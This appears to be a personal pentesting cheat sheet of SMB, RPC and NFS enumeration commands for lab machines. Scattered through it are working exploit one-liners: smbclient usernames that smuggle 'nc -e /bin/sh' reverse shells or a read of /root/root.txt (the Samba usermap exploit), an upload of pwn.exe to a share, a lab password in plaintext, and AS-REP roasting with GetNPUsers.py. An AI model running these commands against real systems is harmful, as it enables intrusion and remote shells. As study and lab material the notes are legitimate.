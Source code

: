https://github.com/absolomb/Pentesting/blob/master/guides/Initial%20Enumeration.md
#### smbmap
• Name:
• Version:
• Domain/workgroup name:
• Domain-sid:
• Allows unauthenticated login:

```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445

enum4linux -a INSERTIPADDRESS
rpcclient -U "" INSERTIPADDRESS
	-c options
	    srvinfo
enumdomusers
getdompwinfo
querydominfo
netshareenum
netshareenumall
smbclient -L INSERTIPADDRESS
smbclient //INSERTIPADDRESS/tmp
mask ""
recurse ON
prompt OFF
mget *


smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
smbclient //INSERTIPADDRESS/ipc$ -U john 
nmblookup -A INSERTIPADDRESS
smbmap -u null -p "" -H 10.10.10.134 -P 445 -R             
```
https://fareedfauzi.gitbook.io/oscp-notes/services-enumeration/smb

![image](https://user-images.githubusercontent.com/9059079/118906570-0031fa00-b8ec-11eb-83e5-47f90fca76ca.png)

![image](https://user-images.githubusercontent.com/9059079/119067201-88c59e80-b9af-11eb-9f1a-54bc5618d4ee.png)



  smbmap -H "10.10.185.43" | tee "recon/smbmap_10.10.185.43.txt"    
  smbmap -H "10.10.185.43" -u milesdyson -p ')s{A&2Z=F^n_E.B`'
  smbmap -u null -p "" -H 10.10.83.190  -P 445 -R 
  
  `smbclient \\\\10.10.104.121\\nt4wrksv`
  .smb: \> put pwn.exe                                                                                                                                       │        dr--r--r--   ```
  ![image](https://user-images.githubusercontent.com/9059079/119594287-7da4b100-bda9-11eb-831c-aa0ef569ccb8.png)
```

```
![image](https://user-images.githubusercontent.com/9059079/119918467-870f5400-bf36-11eb-819b-870c0efd2487.png)

  ```
#### smbclient
  smbclient -L 10.10.10.134

  smbclient --user=milesdyson //10.10.185.43/milesdyson 

  smbclient -L "//10.10.185.43/" -U "guest"%| tee "recon/smbclient_10.10.185.43.txt"              
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
  smbclient -L x.x.x.x
  
  smbmount //x.x.x.x/share /mnt –o username=hodor,workgroup=hodor
  
  smbclient //10.10.100.49/anonymous
  
  enum4linux -a ip
  
  
  
  
  client -U "" -N x.x.x.x  #Anonymous bind using rpcclient / Null connect
  
  smbclient //MOUNT/share #Connect to SMB share

  smbclient -U "/=&#92;&#96;nohup nc -e /bin/sh LHOST LPORT&#92;&#96;" -N -I ip //LAME/tmp

  nmap -T4 -sS -sC -Pn -A --script smb-vuln* ip
  
  smbclient //ip/tmp
  logon "./=`nohup nc -e /bin/sh LHOST LPORT`"

  smbclient -U "/=\`nohup cat /root/root.txt > /tmp/ttt\`" -N -I ip //LAME/tmp

  smbclient -U "/=\`nohup nc -e /bin/sh 10.10.15.11 60000\`" -N -I ip //LAME/tmp
  
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.100.49


mount
  mount ip:/vol/share /mnt/nfs  -nolock
  
  mount -t cifs -o username=user,password=pass,domain=blah //ip.X/share-name /mnt/cifs
  
  mount -t cifs //x.x.x.x/share /mnt
  
  mount -t cifs -o username=hodor,password=hodor //x.x.x.x/share /mnt
  
#### Mounting File Share
  showmount -e IPADDR
  sudo mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow_other

# Port 111 - Rpcbind
	rpcinfo -p INSERTIPADDRESS

# Port 123-NTP
	ntp-info and ntp-monlist
	Check ntpd version for exploits
# Port 139/445 - SMB
	• Name:
	• Version:
	• Domain/workgroup name:
	• Domain-sid:
	• Allows unauthenticated login:
```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse INSERTIPADDRESS -p 445
```
```	
enum4linux -a INSERTIPADDRESS
rpcclient -U "" -N INSERTIPADDRESS		-c options
srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient \\\\INSERTIPADDRESS\\ipc$ -U john
    smbclient //INSERTIPADDRESS/ipc$ -U john 
	nmblookup -A INSERTIPADDRESS
#Admin acount
rpcclient $> enumdomgroups

rpcclient $> querygroup 0x200          
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4            
```  
```
GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/
```
